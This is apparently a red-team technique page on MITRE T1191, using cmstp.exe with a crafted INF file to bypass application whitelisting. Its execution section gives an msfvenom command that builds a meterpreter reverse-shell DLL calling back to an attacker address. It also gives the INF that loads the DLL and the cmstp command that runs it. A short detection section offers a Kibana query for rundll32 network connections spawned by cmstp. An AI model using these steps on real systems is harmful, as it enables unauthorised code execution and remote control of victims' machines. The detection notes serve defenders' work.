 ```yaml
---
description: CSMTP code execution - bypass application whitelisting.
---
```


# T1191: CSMTP

## Execution

Generating evil payload as a DLL - a reverse shell:

{% code-tabs %}
{% code-tabs-item title="evil.dll" %}
```text
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > /root/tools/mitre/cmstp/evil.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Creating a file that will be loaded by CSMTP binary that will in turn load our evil.dll:

{% code-tabs %}
{% code-tabs-item title="f.inf" %}
```scheme
[version]
Signature=$chicago$
AdvancedINF=2.5
 
[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection
 
[RegisterOCXSection]
C:\experiments\cmstp\evil.dll
 
[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="mantvydas"
ShortSvcName="mantvydas"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Carrying out the execution attack:

```bash
PS C:\experiments\cmstp> cmstp.exe /s .\f.inf
```

## Observations

Rundll32 is sapwned which then establishes a connection back to the attacker:

![](../.gitbook/assets/cmstp-rundll32.png)

A very privitive way of hunting for suspicious instances of rundll32 initiating connections would be skimming through the sysmon logs to find any network connections established by rundll32 immediately/soon after it has been spawened by cmstp:

{% code-tabs %}
{% code-tabs-item title="kibana search query" %}
```javascript
cmstp.exe rundll32.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Note how the connection was established second after the process creation. This behaviour depends on what the payload is supposed to do, but if the payload is a reverse shell, it usually attempts connecting back immediately upon execution, which is exactly our case:

![](../.gitbook/assets/cmstp-kibana%20%281%29.png)

{% embed url="https://attack.mitre.org/wiki/Technique/T1191" %}

{% embed url="https://pentestlab.blog/2018/05/10/applocker-bypass-cmstp/" %}



